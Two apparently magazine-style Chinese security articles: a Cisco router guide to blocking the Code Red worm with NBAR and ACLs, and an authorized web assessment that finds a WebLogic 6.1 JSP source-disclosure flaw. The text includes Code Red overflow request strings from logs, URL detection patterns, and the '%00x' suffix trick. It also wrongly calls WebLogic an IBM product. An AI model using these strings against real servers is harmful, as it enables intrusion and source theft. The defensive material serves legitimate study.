——使用基于网络的应用程序识别（NBAR）和访问控制列表（ACL）以阻止“红色代码”蠕虫
文／杨进

#### 介绍
本文介绍了在 Cisco 路由器上利用 Cisco IOS 软件提供的基于网络的应用程序识别（NBAR）和访问控制列表（ACL）技术来阻止“红色代码”蠕虫病毒的方法。建议最好把这个解决方法和微软公司 IIS 服务器补丁程序配合使用。

注：本方法在 Cisco 1600 系列路由器上无效。

不被从外部网络入侵或是减少对于机器必须提供的服务的感染。和入口过滤联合起来使用，出口过滤可以防止客户机将“红色代码”蠕虫病毒感染到整个 Internet。

#### 预备知识
本文要求读者理解以下概念：
- 质量与服务（QoS）
- NBAR
- ACL
- 基于策略的路由

#### 如何阻挡“红色代码”蠕虫病毒
对付“红色代码”蠕虫病毒第一件要做的事情就是为系统打上微软公司的补丁程序，它能够保护容易受攻击的系统，并将被入侵系统中的蠕虫病毒程序删除掉。但是，为你的系统打上补丁程序只能够防止蠕虫病毒对你服务器系统的入侵。它不能阻止 HTTP GET 请求对服务器的袭击。对于服务器而言，仍然存在潜在的广播风暴级的连接入侵企图。

本解决方法是配合微软公司的补丁程序来阻挡“红色代码”蠕虫病毒的 HTTP GET 在网络访问入口点的请求，试图阻止病毒的感染。但是，它对大量的 Cache 入口、邻接和 NAT/PAT 入口产生的问题却无能为力，因为分析 HTTP GET 请求的唯一方法是跟随 TCP 连接的建立。以下的步骤对保护网络不被扫描没有帮助，它只会保护站点不被从外部网络入侵或是减少对于机器必须提供的服务的感染。

#### 支持的平台
本文描述的解决方法需要 Cisco IOS 软件平台的基于标识属性的支持，特别是 NBAR 中对所有 HTTP URL 利用 HTTP 子端口分类属性的支持。现对支持以上属性的最低 Cisco IOS 软件要求列表总结如下：

| 平台 | 最低 Cisco IOS 软件版本 |
|---|---|
| 7200 | 12.1(5)T |
| 7100 | 12.1(5)T |
| 3660 | 12.1(5)T |
| 3640 | 12.1(5)T |
| 3620 | 12.1(5)T |
| 2600 | 12.1(5)T |
| 1700 | 12.2(2)T |

注：为了使用 NBAR 功能，要打开 Cisco 路由器的快速转发（CEF）功能。

以下平台还支持分类标识和分布式 NBAR（DNBAR）：

| 平台 | 最低 Cisco IOS 软件版本 |
|---|---|
| 7500 | 12.1(6)E |
| FlexWAN | 12.1(5)E |

### 通过 IIS Web 日志的分析来探测系统是否被感染初始化的感染
尝试发送一个大的 HTTP GET 请求到目的 IIS 服务器，原始的“红色代码”感染迹象如下所示：

```text
2001-08-04 16:32:23 24.101.17.216 -> 10.1.1.75 80
GET /default.ida
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN NNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
...%u9090%u6858/
%ucb3%u7801%u9090%u6858%ucbd3%u7801%u9090%u6858/
%ucb3%u7801%u9090%u9090%u8190%u00c3%u0003%u8b00/
%u531b%u53ff%u0078%u0000%u00-a 403
```

“红色代码” II 的感染迹象如下所示：

```text
2001-08-04 15:57:35 64.73.35.92 -> 10.1.1.75 80 GET
/default.ida XXXXXXXXXXXXXXXX...
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XX%u9090%u6858/%ucbd3%u7801/%u9090%u6858/%ucbd3/
%u7801%u9090%u6858/%ucbd3%u7801%u9090%u9090/
u8190%u00c3%u0003%u8b00%u531b%u53ff%u0078%u0000%
u00-a 403
```

请注意：GET 请求总是寻找后缀名为 .ida 的文件。这是所有可能感染该病毒的通用字串，它可以用来作为 IOS 中基于分类标识的匹配标准。剩下部分的 GET 请求将试图创建一个可能导致溢出的缓冲区，它无须作为特征码来匹配。这个可以通过比较以下的两个入口看到。

据报道，这两个签名的不同是由于新的“红色代码”蠕虫病毒想区别红色代码版本 3 或红色代码 C。原始的红色代码在 GET 请求中包含“NNNNNNNNN”字符串，而新的红色代码病毒包含的字符串是“XXXXXXXX”，更进一步的信息可以参考 SYMANTEC 公司的建议书。

2001 年 8 月 6 日 6:24PM EDT 时间我们记录了以下的痕迹。这是通过使用 eEye 攻击扫描器查看到的：

```text
2001-08-06 22:24:02 24.30.203.202 -> 10.1.1.9 80
GET /x.ida?AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x
403 HTTP 1.1
```

本文介绍的阻挡“红色代码”的方法还可以通过对分类进行更严格的定义来阻挡对路由器的扫描企图。

#### 利用 IOS 的基于分类标识的属性来标识“红色代码”黑客入侵
利用 Cisco IOS 软件的基于分类标识属性来分类“红色代码”入侵的操作如下：

```text
Router(config)#class-map match-any http-hacks
Router(config-cmap)#match protocol http url "*default.ida*"
Router(config-cmap)#match protocol http url "*cmd.exe*"
Router(config-cmap)#match protocol http url "*root.exe*"
```

以上的分类表将查看 HTTP URL 的内部成分并将匹配任何指定的字符串。

> 注意：在上面的匹配中我们还包含了除“红色代码”特有的 default.ida 以外其他的特征串。你可以使用这种技术来屏蔽其他和与此类似的黑客行为，如对 Sadmind 病毒。

### 分类，标识并屏蔽黑客企图
在网络的入口点使用 Cisco IOS 路由器，你可以使用以下 3 种方法来屏蔽“红色代码”病毒。这些方法分别被标记为方法 A、B、C。你可以选择一种最适合你网络环境的方法来使用。

所有这些方法都是以使用 NBAR 开始并使用基于分类标识来分类，然后将 DSCP 值设置为“红色代码”包。接着，使用支持它的 Cisco IOS 软件属性来丢弃“红色代码”包。

在 QoS CLI（MQC）结构模块中分类表定义了匹配标准。文中介绍的方法使用以下的分类表和 NBAR 来匹配“红色代码”特征字符串：

```text
Router(config)#class-map match-any http-hacks
``````text
Router(config-cmap)#match protocol http url "*default.ida*"
Router(config-cmap)#match protocol http url "*cmd.exe*"
Router(config-cmap)#match protocol http url "*root.exe*"
```

这个分类表通知 QoS 策略检查 HTTP URL 的内部结构，同时匹配任何指定的字符串。接下来，介绍的解决方法创建一个策略表并使用 SET 命令来标记入口的“红色代码”黑客企图。文中使用的 DSCP 值是 1（10 进制），可能其他的网络流量使用另外的值。

```text
Router(config)#policy-map mark-inbound-http-hacks
Router(config-pmap)#class http_hacks
Router(config-pmap-c)#set ip dscp 1
```

#### 方法 A：使用访问控制列表 ACL

这个方法通过在路由器的出口上使用访问控制列表来丢弃标记了的“红色代码”数据包。我们使用以下的网络拓扑图来演示使用这个方法的步骤：


- 1. 用基于分类标记和分类映射名为 “HTTP-HACKS” 来分类入口的“红色代码”入侵企图。
- 2. 用名字为 “mark-inbound-http-hacks” 的策略图来标记入口的“红色代码”入侵企图。

```text
Router(config)#policy-map mark-inbound-http-hacks
Router(config-pmap)#class http_hacks
Router(config-pmap-c)#set ip dscp 1
```

- 3. 将该策略作为入口策略应用到出口的接口上，以标记到达该接口的“红色代码”数据包。

```text
Router(config)#interface serial 0/0
Router(config-if)#service-policy input mark-inbound-http-hacks
```

- 4. 配置一条 ACL 以匹配 DSCP 值 1，并将其设置为服务策略。

```text
Router(config)#access-list 105 deny ip any any dscp 1
Router(config)#access-list 105 permit ip any any
```

注意：Cisco IOS 软件在 12.2(11) 和 12.2(11)T 中介绍了对 LOG 关键字在 ACL 中可以支持定义为使用 NBAR (CSCdy48172) 的分类映射。如果你使用的是以前的版本，注意不要在 ACL 中使用 LOG 关键词，这样做将强制所有的包被程序转发而不被 CEF 转发；同时 NBAR 将不会工作，因为它需要 CEF。

- 5. 在和目标 Web 服务器现连的内部接口上应用 ACL 出口策略。

```text
Router(config)#interface ethernet 0/1
Router(config-if)#ip access-group 105 out
```

- 6. 验证解决方案如预料的那样工作：使用 show access-list 命令并确认 “matches” 值在禁止状态增加。

```text
Router#show access-list 105
Extended IP access list 105
 deny ip any any dscp 1 log (2406 matches)
 permit ip any any (731764 matches)
```

另外，在配置过程中，你可以使用 `no ip unreachables` 这个接口级的命令来禁止路由器发送 IP 不可达消息，以避免路由器消耗过多的资源。如果使用策略路由将 DSCP=1 将流量减到 NULL0（在方法 B 中介绍），那么建议不使用往外出的 ACL 方法。

#### 方法 B：使用基于策略的路由（PBR）

这个方法使用基于策略路由来屏蔽标记为“红色代码”的数据包。如果方法 A 和方法 C 都已经被配置了，那么这个方法就不必应用了。以下是这个方法的步骤：


- 1. 步骤 1：使用方法 A 中介绍的方法，用 class-map 和 policy-map 命令来分类并标记通信。
- 2. 步骤 2：使用 service-policy 命令，在外出接口上以入口策略标记到达的“红色代码”数据包。见方法 A。
- 3. 步骤 3：创建一条扩展的 IP ACL，以匹配标记的“红色代码”数据包。

```text
Router(config)#access-list 106 permit ip any any dscp 1
```

- 4. 步骤 4：使用 route-map 命令来创建路由策略：

```text
Router(config)#route-map null-policy-route 10
Router(config-route-map)#match ip address 106
Router(config-route-map)#set interface Null 0
```

- 5. 步骤 5：将路由映射应用到入口的接口上。

```text
Router(config)#interface serial 0/0
Router(config-if)#ip policy route-map null-policy-route
```

- 6. 步骤 6：用 show access-list 命令来验证你的解决方法是不是起作用了。如果你使用了往外出的 ACL 并使用了 ACL 日志，那么你可以使用如下的 show log 命令：

```text
Router#show access-list 106
Extended IP access list 106
 permit ip any any dscp 1 (1506 matches)
Router#show log
Aug 4 13:25:20: %SEC-6-IPACCESSLOGP: list 105 denied tcp A.B.C.D(0) -> 10.1.1.1 75(0), 6 packets
Aug 4 13:26:32: %SEC-6-IPACCESSLOGP: list 105 denied tcp A.B.C.D(0) -> 10.1.1.1 75(0), 6 packets
```

现在可以在路由器的入口接口卡上实现丢弃策略了，而无须在每个往外出口的接口卡上使用外出的 ACL。同时，建议你使用 `no ip unreachables` 命令来屏蔽发送路由不可达消息。

#### 方法 C：使用基于分类的管理

这个方法通常是最可扩展的方法，因为它不依赖于 PBR 或是外出的 ACL，它使用第二个带基于分类管理的 QoS 服务策略来丢弃“红色代码”数据包。要注意的是：你必须在往外出的接口上分别应用策略；你不能应用单一的策略，它既标记了“红色代码”数据包，同时又丢弃它。

- 1. 步骤 1：使用在方法 A 中介绍的 class-map 和 policy-map 命令分类并标记汇流量。
- 2. 步骤 2：使用 service-policy 命令应用在往外出的接口上作为入口的策略，以标记到达的“红色代码”数据包。见方法 A。
- 3. 步骤 3：使用 policy-map 命令来创建第二个名为 QoS 的服务策略，使用 police 命令来指定丢弃动作。既然所有的动作都设置为丢弃，那么真实信息比率（CIR）和突发值就不起作用了。对 CIR 指定 1000000 的值和对正常突发和扩展突发值指定为 31250 都将使系统正常工作。

```text
Router(config)#policy-map drop-inbound-http-hacks
Router(config-pmap)#class http-hacks
Router(config-pmap)#police 1000000 31250 31250 conform-action drop exceed-action drop violate-action drop
```

- 4. 步骤 4：使用 service-policy 命令将策略作为出口策略应用到内部接口卡上，以丢弃“红色代码”数据包。

```text
Router(config)#interface serial 0/0
Router(config-if)#service-policy input drop-inbound-http-hacks
```

- 5. 步骤 5：用 show policy-map interface 命令来验证你的解决方法是不是起作用了；确信你看到了对分类和不同的匹配标准的增加值。

```text
Router#show policy-map interface serial 0/0
 Serial 0/0
  Service-policy input: drop-inbound-http-hacks

    Class-map: http-hacks (match-any)
      5 packets, 300 bytes
      5 minute offered rate 0 bps, drop rate 0 bps
      Match: protocol http url "*default.ida*"
        5 packets, 300 bytes
        5 minute rate 0 bps
      Match: protocol http url "*cmd.exe*"
        0 packets, 0 bytes
        30 second rate 0 bps
      Match: protocol http url "*root.exe*"
        0 packets, 0 bytes, 30 second rate 0 bps
      police:
```


##### NBAR 的限制

注意：在使用文中介绍的 NBAR 时，以下的属性不被 NBAR 支持。

- 1. 超过 24 个同时对 URL、主机或 MIME 类型的匹配：
  - 对 URL 中超过前 400 字节的匹配。
  - 无 IP 流量。
  - 多目广播和其他的非 CEF 转发模式。
  - 片化的包。
  - 流水化了的固定的 HTTP 请求。
  - 通过安全 HTTP 分类的 URL / 主机 / MIME。
  - 通过稳定协议的非对称流。
  - 源自或目的是运行了 NBAR 的路由器。
- 2. 在以下的逻辑接口上也不能配置 NBAR：
  - 快速以太通道。
  - 使用了信道化或是加密了的接口。
  - VLAN。
  - 拨号接口。
  - 多点连接的 PPP。

既然在 WAN 连接中因为信道化或者加密的应用使得 NBAR 不能用来分类外出的流量，那么就只能将其应用在路由器上的其他接口上，如 LAN 接口，以便在外出的流量流向 WAN 连接前进行流入的分类。

##### 已知使用本方法存在的问题

“红色代码”蠕虫利用没有打补丁的使用微软索引服务的 IIS 的弱点，Internet 数据管理脚本文件（default.ida）默认安装在所有 IIS 服务器上。“红色代码”依靠这个文件的存在而利用其弱点。多数的系统不使用这个服务，所以本建议介绍的屏蔽方法将是有效的。但是，有些服务器可能会用到 IIS 提供的这个服务。在这种情况下，本文提供的屏蔽方法将会同样屏蔽合理的 IIS 服务器请求。

#### 利用漏洞资料库
##### 帮你完成评估工作

文 / SQL

一个朋友给我一个站点，让我帮他评估一下这个 Web 站点的安全性如何，当然首先他们公司已经取得了对方安全评估的授权书。可以想像这是一个用常见的漏洞扫描软件都没有发现任何问题的比较难以下手的“活”。做安全评估这份工作，如果你发现需要评估的客户主机没有任何实际安全问题的时候，往往是一件很尴尬的事情。

这是一个证券交易网站。客户打算在正式公布之前找一个安全公司来评估一下它的安全性。很简单，我第一步还是简单地用 SSS 来对这个站点做一个基本的安全评估，当然我不对结果报什么希望。结果也是这样，最新版本的 SSS 除了发现开放了 3 个端口以外没有发现任何安全问题，而且对方采用的 Web 系统和 JSP 的实际应用也不是我平时所熟悉的东西。这种情况经常在安全评估的过程中出现，毕竟没有哪个评估的工作人员可以了解所有的系统和应用的漏洞情况，但关键的是在问题出现以后应该找到解决的办法才好。

WebLogic Server 6.1 SP2 是我从客户的 Web 服务器返回的 BANNER 上得到的 Web 服务器系统应用程序的名字，这是 IBM 的一个商业服务器，但是我并不知道更多关于它的东西。

我现在要做的就是到一些国外比较大的漏洞资料库里去找一些关于这个服务器的资料，看看有没有我能利用的东西。图 1 是我在 www.securiteam.com 搜索里面填入 WebLogic Server 6.1，然后在线通过 Web 来提交我的查询请求。

运气还不错，看看第 2 条好像里面有点我能利用得上的东西。浏览页面后找到如下描述：

> **Source code revealed.**
> There are a number of ways to manipulate the URL in a way that will allow a malicious user to read the contents of a jsp file. One way is to append "%00x" to the request, another could be to add "+." to the request (exclamation marks excluded).

这段安全问题描述的简单意思就是说，在 jsp 的请求后面，如果恶意的攻击者加上 “%00x” 或者 “+.” 这样的 URL 请求，WebLogic Server 6.1 就会暴露 JSP 程序的源代码出来。这算是一个非常大的安全漏洞了，赶快在实际环境中测试一下。一个 JSP 的页面正常的时候可以访问，但是如果我们在请求的 JSP 结尾处加上个 %00x 的话，结果就变得完全不一样了，服务器轻易地就暴露出了 JSP 程序的源代码给我们。如图 2 所示。找到这么大的安全隐患，客户对我们的评估报告应该满意了吧。

最后看看刚才的那个 www.securiteam.com 上提供给我们的相应解决方法：

> **Corrective action.**
> The following has been copied from the vendor bulletin:
> BEA WebLogic Server and Express version 6.1 standalone or as part of BEA WebLogic Enterprise 6.1 on all OS platforms. Action: Apply Service Pack 2 and then apply this patch: ftp://ftpna.bea.com/pub/releases/security/CR069809_610sp2_v2.jar

上面的那个链接就是这个漏洞的补丁。


*图 1*


*图 2*

现在我们总结一下：没有任何一个扫描软件可以全面地报告出所有的安全问题，和 IDS 系统一样，漏报和误报同样是安全评估过程中经常出现的问题，很多人就是直接拿 ISS 这样高级的扫描软件一阵扫描后拿个报告就完成一次安全评估，但我感觉非常不正规。正规的评估过程应该是先用计算机来模拟某些攻击行为进行测试，就是所谓的用一些扫描软件来做评估。我们用这份报告的结果来实际地到目标主机上去确定问题，把漏报的问题找出来，把误报的问题删除，最后整理出来的报告才算是基本符合要求的东西。另外一个就是，没有人可以了解所有的安全风险点，善于利用网络上的漏洞资料库来帮助你，可以让你事半功倍。